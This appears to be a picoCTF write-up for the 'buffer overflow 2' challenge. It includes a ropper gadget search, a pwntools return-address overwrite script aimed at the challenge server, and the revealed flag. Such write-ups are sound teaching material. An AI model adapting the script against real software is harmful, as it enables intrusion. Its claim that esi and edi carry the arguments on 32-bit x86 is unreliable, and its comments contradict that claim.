 # buffer overflow 2

### Description
> Control the return address and arguments

### Solution
I guess my solution is non-assumed solution.

After causing an overflow and overwrites the return address,
you have to set the value to the first and second arguments as shown below.

```
arg1 <- 0xCAFEF00D
arg2 <- 0xF00DF00D
```

`esi` register is the first argument and `edi` register is the second argument,
so you need to search `pop esi; pop edi; ret;` gadget.

Using the ropper,
```
$ropper -f vuln --search "pop esi; pop edi;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop esi; pop edi;

[INFO] File: vuln
0x08049451: pop esi; pop edi; pop ebp; ret;
```

Final solution

```python
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 49940
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

pop_esi_edi_ebp = 0x08049451

io = remote(host, port)
#io = process(file)
pld = b"A"*112
pld += p32(0x08049296)
pld += p32(pop_esi_edi_ebp)
pld += p32(0xCAFEF00D) # edi
pld += p32(0xF00DF00D) # esi


io.sendlineafter("string:", pld)

io.interactive()
#picoCTF{argum3nt5_4_d4yZ_74abd092}
```
